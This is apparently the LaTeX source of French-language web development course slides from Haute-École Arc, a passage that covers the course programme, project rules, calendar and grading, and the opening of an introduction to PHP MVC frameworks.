\PassOptionsToPackage{unicode=true}{hyperref}
\PassOptionsToPackage{hyphens}{url}

\documentclass[a4paper,12pt]{scrbook}
\KOMAoptions{twoside=false}

\usepackage{lmodern}
\usepackage[T1]{fontenc}
\usepackage{fontspec}
\setmainfont{Linux Libertine O}
\setsansfont{Linux Biolinum O}
\setmonofont[Scale=0.9]{Inconsolata}
\defaultfontfeatures{Scale=MatchLowercase, Mapping=tex-text, Numbers=OldStyle, Ligatures={Common,Rare,Discretionary,Historic}}

\usepackage{csquotes}
\usepackage{polyglossia}
\setdefaultlanguage{french}
\setotherlanguage{english}

\usepackage{microtype}
\usepackage{url}

\usepackage{ulem}
\normalem

\usepackage{longtable}
\usepackage{booktabs}



\usepackage{hyperref}
\urlstyle{same}

\usepackage[Export]{adjustbox}
\adjustboxset{max size={\textwidth}{0.7\textheight}}

% Borrowed from pandoc itself.
\usepackage{color}
\usepackage{fancyvrb}
\newcommand{\VerbBar}{|}
\newcommand{\VERB}{\Verb[commandchars=\\\{\}]}
\DefineVerbatimEnvironment{Highlighting}{Verbatim}{commandchars=\\\{\}}
% Add ',fontsize=\small' for more characters per line
\newenvironment{Shaded}{}{}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{#1}}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.56,0.13,0.00}{#1}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\ConstantTok}[1]{\textcolor[rgb]{0.53,0.00,0.00}{#1}}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\VerbatimStringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.73,0.40,0.53}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textit{#1}}}
\newcommand{\DocumentationTok}[1]{\textcolor[rgb]{0.73,0.13,0.13}{\textit{#1}}}
\newcommand{\AnnotationTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\CommentVarTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{#1}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.02,0.16,0.49}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.10,0.09,0.49}{#1}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{#1}}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.40,0.40,0.40}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.74,0.48,0.00}{#1}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.49,0.56,0.16}{#1}}
\newcommand{\RegionMarkerTok}[1]{#1}
\newcommand{\InformationTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\WarningTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\AlertTok}[1]{\textcolor[rgb]{1.00,0.00,0.00}{\textbf{#1}}}
\newcommand{\ErrorTok}[1]{\textcolor[rgb]{1.00,0.00,0.00}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\setlength{\emergencystretch}{3em}  % prevent overfull lines
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\setcounter{secnumdepth}{0}
% Redefines (sub)paragraphs to behave more like sections
\ifx\paragraph\undefined\else
\let\oldparagraph\paragraph
\renewcommand{\paragraph}[1]{\oldparagraph{#1}\mbox{}}
\fi
\ifx\subparagraph\undefined\else
\let\oldsubparagraph\subparagraph
\renewcommand{\subparagraph}[1]{\oldsubparagraph{#1}\mbox{}}
\fi


\titlehead{2020-2021}
\subject{Haute-École Arc}
\title{Développement Web}
\subtitle{Technologies d'interaction}
\author{%
    David Grunenwald \texttt{<david.grunenwald@he-arc.ch>}}
\date{\today}

\hypersetup{
    pdfborder={1 1 1},
    colorlinks=true,
    linkcolor=blue,
    citecolor=gray,
    urlcolor=blue
}

\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}

\setcounter{tocdepth}{0}

% Emoji's
\usepackage{xltxtra}
\usepackage{xelatexemoji}

% Headings
\usepackage{sectsty}
\allsectionsfont{\sffamily}

% customize the path
\providecommand{\xelatexemojipath}[1]{./emojione-assets/png/64/#1.png}


\begin{document}

\maketitle

\tableofcontents

\chapter{ Présentation}
\hypertarget{programme}{%
\section{Programme}\label{programme}}

\begin{itemize}
\tightlist
\item
  Frameworks MVC : Laravel, Django, \ldots{}
\item
  HTML5 : vue d'ensemble
\item
  Javascript : VueJS, Node.js, jQuery, AJAX, JSON, \ldots{}
\item
  Déploiement et configuration Serveur
\item
  Webservices : REST vs SOAP
\item
  Sécurité : Technologies, prévention des risques courants
\item
  (Responsive) Web Design
\item
  (Syndication : RSS, Atom)
\item
  {Vos souhaits ?}
\end{itemize}

\hypertarget{contenu-activituxe9s}{%
\section{Contenu, activités}\label{contenu-activituxe9s}}

\begin{itemize}
\tightlist
\item
  Cours théorique
\item
  2 Projets

  \begin{itemize}
  \tightlist
  \item
    frameworks : Laravel, Django, Vue.js (ouvert à d'autres
    propositions)
  \item
    Groupes de 3, \href{https://www.he-arc.ch/reglementation}{30h} par
    personne et par projet
  \item
    Présentation de 20min
  \end{itemize}
\item
  Workshops intervenants externes

  \begin{itemize}
  \tightlist
  \item
    Webdesign (\href{https://www.alinekeller.ch}{A. Keller}) ?
  \item
    Flask (\href{http://www.matthieuamiguet.ch/}{M. Amiguet}) ?
  \item
    Automatisation du déploiement
    (\href{https://www.linkedin.com/in/raphaelemourgeon/}{R. Emourgeon})
    ?
  \item
    {Vos présentations ? Vos propositions ?}
  \end{itemize}
\item
  Support : \href{https://he-arc.github.io/slides-devweb/}{ghpages}
  (\href{https://github.com/HE-Arc/slides-devweb/tree/master/src}{source}),
  partage fichiers :
  \href{https://teams.microsoft.com/l/team/19\%3ahGPvEcXl8HCohGre1MLq7AQ4qPWNkY_JqMTTPMPLM-I1\%40thread.tacv2/conversations?groupId=cadc33cc-9fc8-49d7-b951-aa26d534e15f\&tenantId=5b3b7d7d-e119-4d05-9022-f775f2e48e96}{teams}
\end{itemize}

\hypertarget{projets}{%
\section{Projets}\label{projets}}

\begin{itemize}
\tightlist
\item
  Faire pour apprendre
\item
  Les rôles dans une équipe de développement web, workflow
\item
  Ne pas réinventer la roue ou tout faire soi-même
\item
  Critères d'évaluation d'un projet
\item
  En profiter pour apprendre des choses qui vous intéressent
\item
  Avant le 1er octobre :

  \begin{itemize}
  \tightlist
  \item
    Avoir un compte github avec une
    \href{https://github.com/settings/keys}{clé SSH} (indispensable au
    déploiement)
  \item
    Constitution des équipes de 3 personnes
  \item
    Choix du projet
  \item
    Forge : Créer projet sur github dans l'entité
    \href{https://github.com/HE-Arc/}{HE-Arc}
  \item
    \href{https://github.com/HE-Arc/slides-devweb/wiki/Projets-2022-2023}{S'inscrire}
  \end{itemize}
\end{itemize}

\hypertarget{choix-des-projets}{%
\section{Choix des projets}\label{choix-des-projets}}

\begin{itemize}
\tightlist
\item
  Contrainte : appli basée sur des données
\item
  Choix

  \begin{itemize}
  \tightlist
  \item
    Besoin réel
  \item
    Données existantes : \href{http://wiki.dbpedia.org/}{dbpedia},
    \href{https://opendata.swiss/fr/}{opendata}, \ldots{}
  \item
    S'inspirer de l'existant :

    \begin{itemize}
    \tightlist
    \item
      \href{https://www.producthunt.com/topics/web-app}{Product Hunt},
      \href{http://www.makeuseof.com/tag/best-websites-internet/}{makeuseof},
      \ldots{}
    \item
      \href{https://github.com/HE-Arc/}{Volées précédentes}
    \end{itemize}
  \end{itemize}
\item
  Commencer tôt pour se libérer les dernières semaines de l'année
\end{itemize}

\hypertarget{calendrier}{%
\section{Calendrier}\label{calendrier}}

\begin{longtable}[]{@{}rlrl@{}}
\toprule
Semaine & Automne & Semaine & Printemps\tabularnewline
\midrule
\endhead
38 & Projet PHP & 8 &\tabularnewline
39 & & 9 &\tabularnewline
40 & & 10 & Rendu intermédiaire\tabularnewline
41 & S. thématique & 11 &\tabularnewline
42 & & 12 &\tabularnewline
43 & & 13 &\tabularnewline
44 & Rendu intermédiaire & 14 &\tabularnewline
45 & & 16 &\tabularnewline
46 & & 17 &\tabularnewline
48 & & 18 & Présentations\tabularnewline
49 & & 19 & Présentations\tabularnewline
50 & & 20 & Examens\tabularnewline
51 & Présentations & 21 & Début TB\tabularnewline
2 & Projet Python & &\tabularnewline
3 & & &\tabularnewline
4 & & &\tabularnewline
5 & T. Autonome & &\tabularnewline
6 & Examen & &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{suivi-du-calendrier-uxe0-jour-sur-teamsteams}{%
\section{\texorpdfstring{Suivi du calendrier (à jour sur
\href{https://teams.microsoft.com/l/team/19\%3ahGPvEcXl8HCohGre1MLq7AQ4qPWNkY_JqMTTPMPLM-I1\%40thread.tacv2/conversations?groupId=cadc33cc-9fc8-49d7-b951-aa26d534e15f\&tenantId=5b3b7d7d-e119-4d05-9022-f775f2e48e96}{teams})}{Suivi du calendrier (à jour sur teams)}}\label{suivi-du-calendrier-uxe0-jour-sur-teamsteams}}

\begin{figure}
\centering

\includegraphics{src/img/DW2223.png}
\caption{Suivi calendrier}
\end{figure}

\hypertarget{jalons-pour-chacun-des-2-projets}{%
\section{Jalons pour chacun des 2
projets}\label{jalons-pour-chacun-des-2-projets}}

\begin{itemize}
\tightlist
\item
  Echéances

  \begin{itemize}
  \tightlist
  \item
    En début de semaine, pour chacun des projets :

    \begin{enumerate}
    \def\labelenumi{\arabic{enumi}.}
    \tightlist
    \item
      Formation équipe et choix thème
    \item
      Objectifs et maquettes
    \item
      Authentification et 1er déploiement
    \item
      Modèles avec relations (au moins 3, dont 1 n-n)
    \item
    \item
      {Rendu intermédiaire (1x {[}route, validation, contrôleur, vue{]}
      GET et POST + bonne pratique Laravel + app déployé)}
    \item
    \item
      Minimal Viable Product
    \item
    \item
    \item
    \item
      {Rendu projet, Présentation}
    \end{enumerate}
  \end{itemize}
\item
  Il n'est pas interdit d'en ajouter
\end{itemize}

\hypertarget{conseils}{%
\section{Conseils}\label{conseils}}

\begin{itemize}
\tightlist
\item
  Le plus simple possible, pas trop de données
\item
  Application crédible (vraies données, cas réalistes)
\item
  Projet à blanc pour la prise en main du framework
\item
  \href{https://brainhub.eu/blog/difference-between-wireframe-mockup-prototype/}{Maquettes}
\item
  \href{http://drewfradette.ca/a-simpler-successful-git-branching-model/}{Organisez}
  l'utilisation du dépôt
\item
  Le temps disponible à l'horaire ne suffira pas !
\item
  Essayez de commit avec la même identité
\item
  Signalez dans le commit msg si vous n'êtes pas l'auteur
\item
  Le déploiement est long : commencez tôt !
\item
  Il est moins risqué travailler plus au début du projet qu'à la fin !
\item
  Discutez ! Echangez !
\end{itemize}

\hypertarget{uxe9valuation-des-projets}{%
\section{Évaluation des projets}\label{uxe9valuation-des-projets}}

\begin{itemize}
\tightlist
\item
  Note intermédiaire :

  \begin{itemize}
  \tightlist
  \item
    1 page permettant d'afficher des données provenant de la BDD

    \begin{itemize}
    \tightlist
    \item
      p.ex. : Liste de tous les utilisateurs
    \end{itemize}
  \item
    1 page permettant d'enregistrer des données dans la BDD

    \begin{itemize}
    \tightlist
    \item
      p.ex. : Création d'un utilisateur
    \end{itemize}
  \item
    Respect des conventions et bonnes pratiques
  \item
    Respect du pattern MVC : Les requêtes doivent passer par toutes les
    étapes importantes de Laravel

    \begin{itemize}
    \tightlist
    \item
      route, validation des entrées, contrôleur, vue
    \end{itemize}
  \item
    Application déployée avec tous les éléments cités plus haut testable
    et fonctionnel
  \item
    UI/UX peut donner des bonus

    \begin{itemize}
    \tightlist
    \item
      Mais la note sera focalisée sur l'aspect fonctionnel de
      l'application
    \item
      Et le code
    \end{itemize}
  \end{itemize}
\end{itemize}

\hypertarget{uxe9valuation-des-projets---suite}{%
\section{Évaluation des projets -
suite}\label{uxe9valuation-des-projets---suite}}

\begin{itemize}
\tightlist
\item
  Note finale :

  \begin{itemize}
  \tightlist
  \item
    Code : 50\%

    \begin{itemize}
    \tightlist
    \item
      Absence bugs, qualité code, lisibilité, respect conventions et
      bonnes pratiques
    \item
      Déploiement, configuration
    \end{itemize}
  \item
    User Experience : 30\%

    \begin{itemize}
    \tightlist
    \item
      Design UI, Utilisabilité (Efficacité, efficience, satisfaction)
    \end{itemize}
  \item
    Gestion de projet : 20\%

    \begin{itemize}
    \tightlist
    \item
      Fichiers versionnés, messages de commit, Issues, planification,
      travail en équipe
    \item
      Documentation (wiki), Investissement, volume de travail
    \end{itemize}
  \item
    Bonus (ceux qui vont plus loin) : 0-20\%

    \begin{itemize}
    \tightlist
    \item
      WebSockets ou autre API HTML5, webservices, \ldots{}
    \item
      Contribution, présentation, documentation, \ldots{}
    \end{itemize}
  \end{itemize}
\item
  {Tous les membres d'un groupe n'ont pas forcément la même note}
\end{itemize}

\hypertarget{participation}{%
\section{Participation}\label{participation}}

\begin{itemize}
\tightlist
\item
  Aux projets des autres : Issues, PR
\item
  Participez à la
  \href{https://hacktoberfest.digitalocean.com/}{Hacktoberfest}
\item
  Pariticipez au cours : contenu, présentation, pages
  (\href{https://he-arc.github.io/}{index},
  \href{https://github.com/HE-Arc/slides-devweb/wiki}{wiki}, \ldots)
\item
  Echangez avec \href{https://caravel.ing.he-arc.ch/}{caravel} (groupes
  : 22-ISC3il-a et 22-ISC3il-b) et tout autre im (discord, teams,
  \ldots)
\end{itemize}

\hypertarget{pruxe9sentation-facultative}{%
\section{Présentation facultative}\label{pruxe9sentation-facultative}}

\begin{itemize}
\tightlist
\item
  Facultatif, ne peut qu'augmenter la moyenne
\item
  DOIT être annoncé au semestre d'automne
\item
  Un thème absent du cours
\item
  2 à 4 personnes
\item
  Une présentation claire avec démo (printemps)
\item
  Un exercice d'application
\item
  Critiques et discussion
\item
  Au plus tôt :

  \begin{itemize}
  \tightlist
  \item
    Constitution des équipes
  \item
    Proposer 1 à 3 thèmes
  \item
    \href{https://docs.google.com/spreadsheet/viewform?formkey=dEVJRE1WVTVPelhFcE94TGF5N1c0cGc6MQ}{Proposer}
    le(s) thème(s) de présentation et l'équipe
  \end{itemize}
\end{itemize}

\hypertarget{examen-oral-sa}{%
\section{Examen oral SA}\label{examen-oral-sa}}

\begin{itemize}
\tightlist
\item
  Généralités pour la partie dev web de l'examen :

  \begin{itemize}
  \tightlist
  \item
    Vous n'avez droit à rien : on vous mettra à disposition 1 crayon et
    du papier pour préparer votre présentation,
  \item
    L'examen porte sur toute la matière vue au en cours (yc workshops),
  \item
    Les questions sont générales, il s'agit de présenter des concepts
    vus en cours (souvent 1 chapitre), et expliquer certains mécanismes
    sous-jacents,
  \item
    Il n'agit pas de réciter le contenu des slides par coeur, mais de
    les présenter avec vos propres mots (compréhension), et vos propres
    exemples.
  \end{itemize}
\end{itemize}

\hypertarget{examen-oral-sa-1}{%
\section{Examen oral SA}\label{examen-oral-sa-1}}

\begin{itemize}
\tightlist
\item
  Déroulement :

  \begin{itemize}
  \tightlist
  \item
    Vous tirez un n° de question au hasard pour chaque cours
  \item
    Vous disposez de 15 min pour préparer une présentation de 10 min
    pour chacun des 2 cours (pendant la présentation de l'étudiant
    précédent)
  \item
    Idéalement vous faites une présentation d'environ 10 min et les 5
    min restantes sont dédiées aux questions (pour chacun des cours)
  \end{itemize}
\end{itemize}

\hypertarget{mon-expuxe9rience-en-duxe9veloppement-web}{%
\section{Mon expérience en développement
web}\label{mon-expuxe9rience-en-duxe9veloppement-web}}

\begin{itemize}
\tightlist
\item
  \href{https://docs.google.com/spreadsheet/viewform?formkey=dDg5Znh5akRBV1hPbC1qYlVRV3BONFE6MQ}{Questionnaire}
  obligatoire (votre username github vous y sera demandé)
\end{itemize}

\hypertarget{section}{%
\subsubsection{🙏 !}\label{section}}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ Introduction aux frameworks PHP}
\hypertarget{framework}{%
\section{\texorpdfstring{\href{http://en.wikipedia.org/wiki/Software_framework}{Framework}}{Framework}}\label{framework}}

\begin{itemize}
\tightlist
\item
  Fonctionnalités similaires pour de nombreuses applis
\item
  Composants de haut-niveau réutilisables (faible couplage)
\item
  Règles de codage et d'architecture
\item
  Code sûr et efficace
\item
  Facilite les tests et la gestion de projets complexes
\item
  Utilisation de Design Patterns dès que possible
\item
  Comportement par défaut
\item
  Extensible
\item
  Principe d'inversion de contrôle
\end{itemize}

Différences entre framework et library sur
\href{http://stackoverflow.com/questions/148747/what-is-the-difference-between-a-framework-and-a-library}{Stack
Overflow} ou
\href{http://www.artima.com/forums/flat.jsp?forum=106\&thread=152104}{artima
developper}.

\hypertarget{design-patterns-et-webdev}{%
\section{Design Patterns et webdev}\label{design-patterns-et-webdev}}

\begin{itemize}
\tightlist
\item
  Inversion de contrôle
  (\href{http://martinfowler.com/bliki/InversionOfControl.html}{IoC})
\item
  Model View Controller

  \begin{itemize}
  \tightlist
  \item
    M : Accès aux données, logique métier
  \item
    V : Templates des pages à générer
  \item
    C : Orchestration, transfert des infos
  \end{itemize}
\item
  Front Controller

  \begin{itemize}
  \tightlist
  \item
    Traitement et dispatch des requêtes grâce aux \textbf{routes}
  \item
    (bootstrap, ré-écriture des URL, \ldots)
  \end{itemize}
\item
  \href{https://web.archive.org/web/20160316065751/http://blog.mazenod.fr/2010/01/design-pattern-mvc-zoom-sur-la-couche-modele-dal-dao-orm-crud/}{Object
  Relational Mapping}

  \begin{itemize}
  \tightlist
  \item
    Active Record, Table Data Gateway, Data Mapper, \ldots{}
  \end{itemize}
\item
  \href{http://ui-patterns.com/}{UI Patterns}
\end{itemize}

\hypertarget{mvc-for-webdev}{%
\section{MVC for webdev}\label{mvc-for-webdev}}

\begin{figure}
\centering

\includegraphics{src/img/mvc.png}
\caption{MVC}
\end{figure}

\hypertarget{conventions}{%
\section{Conventions}\label{conventions}}

\begin{itemize}
\tightlist
\item
  Nommage

  \begin{itemize}
  \tightlist
  \item
    Classes
  \item
    Base de données
  \item
    Fichiers et dossiers
  \end{itemize}
\item
  ROUTES :
  \textenglish{\texttt{http://app.host.tld/controller/action{[}/key/val{]}}}
\item
  Arborescence :

  \begin{itemize}
  \tightlist
  \item
    Imposée ou libre selon frameworks
  \item
    Pas de code (minimum) sous la racine web
  \end{itemize}
\item
  Conventions obligatoires ou non, mais RECOMMANDEES dans tous les cas
\end{itemize}

\hypertarget{bonnes-pratiques}{%
\section{Bonnes pratiques}\label{bonnes-pratiques}}

\begin{itemize}
\tightlist
\item
  Heavy Model, Light Controller
\item
  Don't Repeat Yourself
\item
  You Ain't Gonna Need It
\item
  Convention Over Configuration
\item
  Keep It Simple and Stupid
\item
  \href{https://12factor.net/}{12 factor app} -
  \href{https://12factor.net/fr/}{fr}
\end{itemize}

\hypertarget{pretty-smart-clean-formatted-url}{%
\section{Pretty ( \textbar{} smart \textbar{} clean \textbar{}
formatted) URL}\label{pretty-smart-clean-formatted-url}}

\begin{itemize}
\tightlist
\item
  Les URL doivent être explicites :

  \begin{itemize}
  \tightlist
  \item
    Manipulées par l'utilisateur
  \item
    Utilisées pour le référencement
  \end{itemize}
\item
  Cohérence avec l'implémentation MVC :
\end{itemize}

\begin{english}

\begin{verbatim}
